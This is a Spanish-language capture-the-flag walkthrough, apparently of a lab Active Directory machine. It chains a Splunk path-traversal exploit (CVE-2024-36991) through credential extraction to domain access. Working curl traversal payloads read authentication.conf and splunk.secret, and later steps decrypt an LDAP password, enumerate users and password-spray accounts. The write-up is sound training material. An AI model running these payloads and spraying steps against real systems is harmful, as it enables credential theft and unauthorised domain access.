SMB         10.10.11.61     445    DC01             [-] haze.htb\guest: STATUS_ACCOUNT_DISABLED 
```

Tenemos que dicha cuenta esta deshabilitada, por lo que asi sin mas no podemos hacer nada (Muy buena practica de seguridad por parte de los de IT), pero veamos que podemos hacer con la web revisando los puertos antes mencionados:

(Puerto 8000)



(Puerto 8088)



No hay mucho que revisar en este ultimo, y al no disponer de credenciales validas y no disponer de la version exacta de splunk enterprise, se nos dificulta un poco la tarea en este paso, a no ser, que probemos via https:

(Puerto HTTPS - 8088)



Ok, aqui si responde, asi que suponiendo que es lo mismo para el ultimo puerto, vemos lo siguiente:

(Puerto HTTPS - 8089)



Parece que tenemos nuestro punto de partida a partir de esto, ya que la version es la 9.2.1.

Investigando en el navegador acerca de esta version nos topamos con el siguiente CVE:



(CVE-2024-29945)

Basicamente la vulnerabilidad que tenemos es de LFI (Local File Inclusion) y esto es potencial, porque a traves de esto podriamos conseguir la config principal de Splunk y ver si podemos encontrar credenciales para atentar contra el dominio.

Buscando un POC de el CVE antes mencionado encontramos el siguiente repositorio de [github](https://github.com/bigb0x/CVE-2024-29973):



Perfe, clonemoslo y veamos si podemos obtener lo que buscamos:

(Para clonar el repositorio)

```bash
❯ git clone https://github.com/bigb0x/CVE-2024-29973.git
Cloning into 'CVE-2024-29973'...
remote: Enumerating objects: 54, done.
remote: Counting objects: 100% (54/54), done.
remote: Compressing objects: 100% (47/47), done.
remote: Total 54 (delta 9), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (54/54), 219.70 KiB | 2.01 MiB/s, done.
Resolving deltas: 100% (9/9), done.
```

Y una vez que lo tenemos ya solo quedaria ejecutarlo y probar la vuln:

```bash
❯ ls
 CVE-2024-29973.py   README.md   screens
❯ python3 CVE-2024-29973.py -h


░█▀▀█ ░█──░█ ░█▀▀▀ ── █▀█ █▀▀█ █▀█ ─█▀█─ ── █▀█ ▄▀▀▄ ▄▀▀▄ ▀▀▀█ █▀▀█ 
░█─── ─░█░█─ ░█▀▀▀ ▀▀ ─▄▀ █▄▀█ ─▄▀ █▄▄█▄ ▀▀ ─▄▀ ▀▄▄█ ▀▄▄█ ──█─ ──▀▄ 
░█▄▄█ ──▀▄▀─ ░█▄▄▄ ── █▄▄ █▄▄█ █▄▄ ───█─ ── █▄▄ ─▄▄▀ ─▄▄▀ ─▐▌─ █▄▄█
  -> POC CVE-2024-29973 vulnerability Command injection vulnerability in Zyxel firmware. POC version: 1.0.1

    
usage: CVE-2024-29973.py [-h] (-u URL | -f FILE)

Check for CVE-2024-34470 vulnerability.

options:
  -h, --help       show this help message and exit
  -u, --url URL    Target URL (e.g., http://example.com)
  -f, --file FILE  File containing list of URLs (one per line)
❯ python3 CVE-2024-29973.py -u 'http://10.10.11.61:8000/'
❯ python3 CVE-2024-29973/CVE-2024-29973.py -u 'http://10.10.11.61:8000'


░█▀▀█ ░█──░█ ░█▀▀▀ ── █▀█ █▀▀█ █▀█ ─█▀█─ ── █▀█ ▄▀▀▄ ▄▀▀▄ ▀▀▀█ █▀▀█ 
░█─── ─░█░█─ ░█▀▀▀ ▀▀ ─▄▀ █▄▀█ ─▄▀ █▄▄█▄ ▀▀ ─▄▀ ▀▄▄█ ▀▄▄█ ──█─ ──▀▄ 
░█▄▄█ ──▀▄▀─ ░█▄▄▄ ── █▄▄ █▄▄█ █▄▄ ───█─ ── █▄▄ ─▄▄▀ ─▄▄▀ ─▐▌─ █▄▄█
  -> POC CVE-2024-29973 vulnerability Command injection vulnerability in Zyxel firmware. POC version: 1.0.1

    
[INFO] Testing single target: http://10.10.11.61:8000
[WARNING] Not Vulnerable: http://10.10.11.61:8000
```

La verdad no sabia lo que pasaba hasta que sin querer investigando mas me tope con otro CVE:



Viendo lo que informaba la pagina me tope nuevamente con la version previamente mencionada:



Aunque esta en ingles pero basicamente dice que las versiones **inferiores** a la 9.2.2 (Que es nuestro caso) y otras mas versiones, son vulnerables, y al clonar el repositorio que ellos ofrecen como POC y usarlo vemos la siguiente respuesta:

```bash
❯ git clone https://github.com/bigb0x/CVE-2024-36991
Cloning into 'CVE-2024-36991'...
remote: Enumerating objects: 22, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (20/20), done.
remote: Total 22 (delta 4), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (22/22), 135.19 KiB | 1.30 MiB/s, done.
Resolving deltas: 100% (4/4), done.
❯ cd CVE-2024-36991
❯ python3 CVE-2024-36991.py -u 'http://10.10.11.61:8000/'

                                                                        
  ______     _______     ____   ___ ____  _  _        _____  __   ___   ___  _ 
 / ___\ \   / | ____|   |___ \ / _ |___ \| || |      |___ / / /_ / _ \ / _ \/ |
| |    \ \ / /|  _| _____ __) | | | |__) | || |_ _____ |_ \| '_ | (_) | (_) | |
| |___  \ V / | |__|_____/ __/| |_| / __/|__   _|________) | (_) \__, |\__, | |
 \____|  \_/  |_____|   |_____|\___|_____|  |_|      |____/ \___/  /_/   /_/|_|
                                                                           
-> POC CVE-2024-36991. This exploit will attempt to read Splunk /etc/passwd file. 
-> By x.com/MohamedNab1l
-> Use Wisely.

[INFO] Testing single target: http://10.10.11.61:8000/
[VLUN] Vulnerable: http://10.10.11.61:8000/
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152
```

Vale, creo que ya vas viendo por donde van los tiros no? tenemos unos hashes potentes, que al meter a hashcat nos deja lo siguiente:

```bash
❯ nano hashes.txt
❯ hashcat hashes.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --force
hashcat (v6.2.6-1053-g237d78474+) starting in autodetect mode

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

nvmlDeviceGetFanSpeed(): Not Supported

CUDA API (CUDA 12.9)
====================
* Device #01: Quadro P620, 3984/4031 MB, 4MCU

OpenCL API (OpenCL 3.0 CUDA 12.9.90) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #02: Quadro P620, skipped

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 4 digests; 4 unique digests, 4 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 793 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: hashes.txt
Time.Started.....: Thu Jul  3 18:01:54 2025, (5 mins, 18 secs)
Time.Estimated...: Thu Jul  3 21:50:04 2025, (3 hours, 42 mins)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........:     4210 H/s (16.75ms) @ Accel:704 Loops:1 Thr:128 Vec:1
Recovered........: 0/4 (0.00%) Digests (total), 0/4 (0.00%) Digests (new), 0/4 (0.00%) Salts
Progress.........: 1081344/57377536 (1.88%)
Rejected.........: 0/1081344 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#01..: Salt:3 Amplifier:0-1 Iteration:3591-3592
Candidate.Engine.: Device Generator
Candidates.#01...: 123456 -> clay10
Hardware.Mon.#01.: Temp: 50c Util: 98% Core:1455MHz Mem:3003MHz Bus:8

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 
```

No nos devuelve nada, y al ser el hash demasiado potente (cosa que m igrafica tardara mucho y esa no es la idea, mas bien como ultima opcion) sigamos enumerando mas cosas interesantes, del sistema. Para nuestra suerte, [Splunk](https://help.splunk.com/en/splunk-enterprise/administer/admin-manual/9.2/configuration-file-reference/9.2.1-configuration-file-reference/ui-prefs.conf) dispone de la raiz de los archivos en el blog mencionado <== asi que enumeremos lo que nos llame mas la atencion, empezando por el ``
No nos devuelve nada, y al ser el hash demasiado potente (cosa que m igrafica tardara mucho y esa no es la idea, mas bien como ultima opcion) sigamos enumerando mas cosas interesantes, del sistema. Para nuestra suerte, [Splunk](https://help.splunk.com/en/splunk-enterprise/administer/admin-manual/9.2/configuration-file-reference/9.2.1-configuration-file-reference/ui-prefs.conf) dispone de la raiz de los archivos en el blog mencionado <== asi que enumeremos lo que nos llame mas la atencion, empezando por el `/etc/system/local/authentication.conf` ya que puede contener algo de nuestro interes.

Por cierto, antes de hacer el ataque, debemos hacer un "ligero" cambio en nuestra forma de atacar, si bien es sabido que a traves del script es posible hacerlo, pero al no tener mucho tiempo ahora mismo, lo hare a traves de curl que es lo mismo (Y es un poco mas rapido JAJAJA) so, asi quedaria el comando y la respuesta:

```bash
❯ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf'
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
```

Perfecto, empezamos a tener algo de valor, un usuario que al parecer es valido mas una pass hasheada, aunque, esto no es un hash como tal, ya que investigando, el hash de splunk se caracteriza por tener una llave, dicha llave la encontramos en `/etc/auth/splunk.secret`. So, obtengamos la clave con `curl` nuevamente:

```bash
❯ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret'
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD%                                                                     
```

Lo del `%` al final es normal, simplemente lo remueves y ya lo tenemos :p

Aqui aplicaremos otra tecnica diferente a la de fuerza bruta conocida como `splunk secrets` "Asi la conozco yo en todo caso", debido a que como mencione, utiliza un secret para desencriptar todo hash almacenado por splunk, y pues esto nos facilitara la tarea, aqui su repositorio de [github](https://github.com/HurricaneLabs/splunksecrets).

Los pasos para instalar no son muy complicados, pero aun asi, estaran aqui :]

```bash
❯ pip install splunksecrets
Defaulting to user installation because normal site-packages is not writeable
Collecting splunksecrets
  Downloading splunksecrets-1.1.0-py3-none-any.whl.metadata (303 bytes)
Collecting click>=8.0.0 (from splunksecrets)
  Downloading click-8.2.1-py3-none-any.whl.metadata (2.5 kB)
Collecting cryptography>=43 (from splunksecrets)
  Downloading cryptography-45.0.5-cp311-abi3-manylinux_2_34_x86_64.whl.metadata (5.7 kB)
Collecting pcrypt (from splunksecrets)
  Downloading pcrypt-1.0.5.tar.gz (6.0 kB)
  Preparing metadata (setup.py) ... done
Requirement already satisfied: cffi>=1.14 in /usr/lib/python3.13/site-packages (from cryptography>=43->splunksecrets) (1.17.1)
Requirement already satisfied: pycparser in /usr/lib/python3.13/site-packages (from cffi>=1.14->cryptography>=43->splunksecrets) (2.22)
Downloading splunksecrets-1.1.0-py3-none-any.whl (7.0 kB)
Downloading click-8.2.1-py3-none-any.whl (102 kB)
Downloading cryptography-45.0.5-cp311-abi3-manylinux_2_34_x86_64.whl (4.5 MB)
   ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 4.5/4.5 MB 7.6 MB/s eta 0:00:00
Building wheels for collected packages: pcrypt
  DEPRECATION: Building 'pcrypt' using the legacy setup.py bdist_wheel mechanism, which will be removed in a future version. pip 25.3 will enforce this behaviour change. A possible replacement is to use the standardized build interface by setting the `--use-pep517` option, (possibly combined with `--no-build-isolation`), or adding a `pyproject.toml` file to the source tree of 'pcrypt'. Discussion can be found at https://github.com/pypa/pip/issues/6334
  Building wheel for pcrypt (setup.py) ... done
  Created wheel for pcrypt: filename=pcrypt-1.0.5-py3-none-any.whl size=6076 sha256=30650cf02791236b8c3e4ad08570bf1ad3ac19e9ef20347665d5758f45094476
  Stored in directory: /home/unknown/.cache/pip/wheels/c8/c1/a6/08cbd3dbba527d0d142adf286de1d8ab253e7f135bbe31fcc9
Successfully built pcrypt
WARNING: Error parsing dependencies of wfuzz: Expected matching RIGHT_PARENTHESIS for LEFT_PARENTHESIS, after version specifier
    pyparsing (>=2.4*) ; python_version >= "3.5"
              ~~~~~~^
Installing collected packages: pcrypt, click, cryptography, splunksecrets
  Attempting uninstall: click
    Found existing installation: click 6.6
    Uninstalling click-6.6:
      Successfully uninstalled click-6.6
  Attempting uninstall: cryptography
    Found existing installation: cryptography 42.0.8
    Uninstalling cryptography-42.0.8:
      Successfully uninstalled cryptography-42.0.8
ERROR: pip's dependency resolver does not currently take into account all the packages that are installed. This behaviour is the source of the following dependency conflicts.
pwntools 4.14.1 requires unix-ar; python_version >= "3.6", which is not installed.
onionshare-cli 2.6.3 requires cython<4.0.0,>=3.0.2, which is not installed.
pwndbg 2025.4.18 requires ipython<9,>=8.27.0, which is not installed.
bloodyad 2.1.18 requires cryptography==44.0.2, but you have cryptography 45.0.5 which is incompatible.
aemscan 1.0 requires click==6.6, but you have click 8.2.1 which is incompatible.
aemscan 1.0 requires requests==2.20.0, but you have requests 2.32.4 which is incompatible.
certipy-ad 5.0.2 requires cryptography~=42.0.8, but you have cryptography 45.0.5 which is incompatible.
pyopenssl 24.0.0 requires cryptography<43,>=41.0.5, but you have cryptography 45.0.5 which is incompatible.
autobloody 0.2.2 requires bloodyad==1.0.5, but you have bloodyad 2.1.18 which is incompatible.
mitmproxy 12.1.1 requires argon2-cffi<=23.1.0,>=23.1.0, but you have argon2-cffi 25.1.0 which is incompatible.
mitmproxy 12.1.1 requires cryptography<44.1,>=42.0, but you have cryptography 45.0.5 which is incompatible.
mitmproxy 12.1.1 requires flask<=3.1.0,>=3.0, but you have flask 3.1.1 which is incompatible.
mitmproxy 12.1.1 requires pyOpenSSL<=25.0.0,>=24.3, but you have pyopenssl 24.0.0 which is incompatible.
mitmproxy 12.1.1 requires tornado<=6.5.0,>=6.5.0, but you have tornado 6.4.2 which is incompatible.
mitmproxy 12.1.1 requires urwid<=2.6.16,>=2.6.14, but you have urwid 3.0.2 which is incompatible.
pwntools 4.14.1 requires unicorn!=2.1.3,>=2.0.1, but you have unicorn 2.1.3 which is incompatible.
onionshare-cli 2.6.3 requires flask==2.3.2, but you have flask 3.1.1 which is incompatible.
onionshare-cli 2.6.3 requires flask-socketio==5.3.4, but you have flask-socketio 5.5.1 which is incompatible.
onionshare-cli 2.6.3 requires gevent<24.0.0,>=23.9.1, but you have gevent 24.11.1 which is incompatible.
onionshare-cli 2.6.3 requires qrcode<8.0.0,>=7.4.2, but you have qrcode 8.2 which is incompatible.
onionshare-cli 2.6.3 requires stem==1.8.1, but you have stem 1.8.3 which is incompatible.
onionshare-cli 2.6.3 requires werkzeug==3.0.6, but you have werkzeug 3.1.3 which is incompatible.
onionshare-cli 2.6.3 requires wheel<0.42.0,>=0.41.2, but you have wheel 0.45.1 which is incompatible.
pwndbg 2025.4.18 requires pyelftools<0.30,>=0.29, but you have pyelftools 0.32 which is incompatible.
pwndbg 2025.4.18 requires ropgadget==7.3, but you have ropgadget 7.6 which is incompatible.
onionshare 2.6.3 requires PySide6==6.8.2.1, but you have pyside6 6.9.1 which is incompatible.
onionshare 2.6.3 requires werkzeug==3.0.6, but you have werkzeug 3.1.3 which is incompatible.
Successfully installed click-8.2.1 cryptography-45.0.5 pcrypt-1.0.5 splunksecrets-1.1.0
❯ 
❯ splunksecrets
Usage: splunksecrets [OPTIONS] COMMAND [ARGS]...

Options:
  --help  Show this message and exit.

Commands:
  dbconnect-decrypt         Decrypt password used for dbconnect identity
  dbconnect-encrypt         Encrypt password used for dbconnect identity
  dbconnect-legacy-encrypt  Encrypt password used for dbconnect identity...
  phantom-decrypt           Decrypt password used for Phantom asset
  phantom-encrypt           Encrypt password used for Phantom asset
  splunk-decrypt            Decrypt password using Splunk 7.2 algorithm
  splunk-encrypt            Encrypt password using Splunk 7.2 algorithm
  splunk-hash-passwd        Generate password hash for use in...
  splunk-legacy-decrypt     Decrypt password using legacy Splunk...
  splunk-legacy-encrypt     Encrypt password using legacy Splunk...
```

Descuida, estos errores aparecen porque hay dependencias que no tienen las versiones indicadas, pero lo importante es que funciona, y se instalaron correctamente :p

Ahora lo que sigue es crackear ese hash, primero guardando el archivo en un file llamado `splunk.secret`. Una vez hecho esto, solo quedara ejecutar el siguiente comando:

```bash
❯ splunksecrets splunk-decrypt --splunk-secret splunk.secret --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY='
Ld@p_Auth_Sp1unk@2k24
```

Funciono!

Probemos esta credencial con el usuario previamente filtrado. aunquee, active directory no usa espacios para nombres de usuario... Pero para nuestra suerte para verificar el nombre real de este usuario disponemos de una tool llamada [kerbrute](https://github.com/ropnop/kerbrute),, mas otra llamada [username-anarchy](https://github.com/urbanadventurer/username-anarchy) las cuales nos ayudara para la tarea.

Primero debemos guardar el nombre de usuario en un archivo cualquiera, y luego con el siguiente comando ejecutarlo y guardar todas las variantes del nombre en un txt:

```bash
❯ ./username-anarchy --input-file ../paul.txt > ../pauls.txt
❯ cd ..
❯ cat pauls.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: pauls.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ paul
   2   │ paultaylor
   3   │ paul.taylor
   4   │ paultayl
   5   │ pault
   6   │ p.taylor
   7   │ ptaylor
   8   │ tpaul
   9   │ t.paul
  10   │ taylorp
  11   │ taylor
  12   │ taylor.p
  13   │ taylor.paul
  14   │ pt
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Perfecto, ahora con este resultado, usaremos ahora si `kerbrute` con el siguiente comando para ver que nos da. (Cabe recalcar que yo lo tengo en la carpeta `/opt`, y estaremos usando el parametro de `userenum` que igual se ve en su web):

```bash
❯ /opt/kerbrute/dist/kerbrute_linux_amd64 userenum -d haze.htb --dc 10.10.11.61 pauls.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (9cfb81e) - 07/03/25 - Ronnie Flathers @ropnop

2025/07/03 19:03:42 >  Using KDC(s):
2025/07/03 19:03:42 >  	10.10.11.61:88

2025/07/03 19:03:42 >  [+] VALID USERNAME:	paul.taylor@haze.htb
2025/07/03 19:03:42 >  Done! Tested 14 usernames (1 valid) in 0.153 seconds
```

Perfecto, ahora usaremos netexec para verificar las credenciales que obtuvimos:

```bash
❯ netexec smb 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24'
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
```

Vamos excelente.

Ahora que procede?

Ahora que disponemos de credenciales validas, podriamos hacer dos cosas, verificar si existe algo en `SMB` o intentar obtener todos los usuarios para posteriormente hacer un `password-spraying`, probando la pass que obtuvimos contra otros usuarios para ver si es valida.

Probemos primero lo de el `SMB`:

```bash
❯ netexec smb 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --shares
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [*] Enumerated shares
SMB         10.10.11.61     445    DC01             Share           Permissions     Remark
SMB         10.10.11.61     445    DC01             -----           -----------     ------
SMB         10.10.11.61     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.61     445    DC01             C$                              Default share
SMB         10.10.11.61     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.61     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.61     445    DC01             SYSVOL          READ            Logon server share 
```

La verdad no vemos nada interesante, asi que procedamos a hacer la tecnica de `password-spraying`:

```bash
❯ netexec smb 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             498: HAZE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             500: HAZE\Administrator (SidTypeUser)
SMB         10.10.11.61     445    DC01             501: HAZE\Guest (SidTypeUser)
SMB         10.10.11.61     445    DC01             502: HAZE\krbtgt (SidTypeUser)
SMB         10.10.11.61     445    DC01             512: HAZE\Domain Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             513: HAZE\Domain Users (SidTypeGroup)
SMB         10.10.11.61     445    DC01             514: HAZE\Domain Guests (SidTypeGroup)
SMB         10.10.11.61     445    DC01             515: HAZE\Domain Computers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             516: HAZE\Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             517: HAZE\Cert Publishers (SidTypeAlias)
SMB         10.10.11.61     445    DC01             518: HAZE\Schema Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             519: HAZE\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             520: HAZE\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.61     445    DC01             521: HAZE\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             522: HAZE\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             525: HAZE\Protected Users (SidTypeGroup)
SMB         10.10.11.61     445    DC01             526: HAZE\Key Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             527: HAZE\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             553: HAZE\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.61     445    DC01             571: HAZE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.61     445    DC01             572: HAZE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.61     445    DC01             1000: HAZE\DC01$ (SidTypeUser)
SMB         10.10.11.61     445    DC01             1101: HAZE\DnsAdmins (SidTypeAlias)
SMB         10.10.11.61     445    DC01             1102: HAZE\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1103: HAZE\paul.taylor (SidTypeUser)
SMB         10.10.11.61     445    DC01             1104: HAZE\mark.adams (SidTypeUser)
SMB         10.10.11.61     445    DC01             1105: HAZE\edward.martin (SidTypeUser)
SMB         10.10.11.61     445    DC01             1106: HAZE\alexander.green (SidTypeUser)
SMB         10.10.11.61     445    DC01             1107: HAZE\gMSA_Managers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1108: HAZE\Splunk_Admins (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1109: HAZE\Backup_Reviewers (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup)
SMB         10.10.11.61     445    DC01             1111: HAZE\Haze-IT-Backup$ (SidTypeUser)
SMB         10.10.11.61     445    DC01             1112: HAZE\Support_Services (SidTypeGroup)
```

La verdad me da algo de pereza grepear mano a mano o hacer algo similar xd, asi que meti todos los usuarios a ChatGPT para que solo me de una lista y ya :p (Igual la dejare aqui):



Listo, ahora la metemos a un txt y ya estaria:

```bash
❯ nano users.txt
❯ cat users.txt
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: users.txt
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Administrator
   2   │ Guest
   3   │ krbtgt
   4   │ DC01$
   5   │ paul.taylor
   6   │ mark.adams
   7   │ edward.martin
   8   │ alexander.green
   9   │ Haze-IT-Backup$
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora probamos con netexec la misma pass para ver.

Con el parametro `--continue-on-success` le decimos que si una es valida (Que en este caso es asi), que siga sin importar que:

```bash
❯ netexec smb 10.10.11.61 -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
SMB         10.10.11.61     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Guest:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\krbtgt:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
SMB         10.10.11.61     445    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
SMB         10.10.11.61     445    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE 
```

Perfecto, tenemos a mark. Verifiquemos de un rapido si este tiene acceso a `WINRM`:

```bash
❯ netexec winrm 10.10.11.61 -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24'
WINRM       10.10.11.61     5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) 
WINRM       10.10.11.61     5985   DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 (Pwn3d!)
```

Eso esta muy bien

Ahora podemos entrar al dominio y verificar si estamos ante el `user.txt`:

```bash
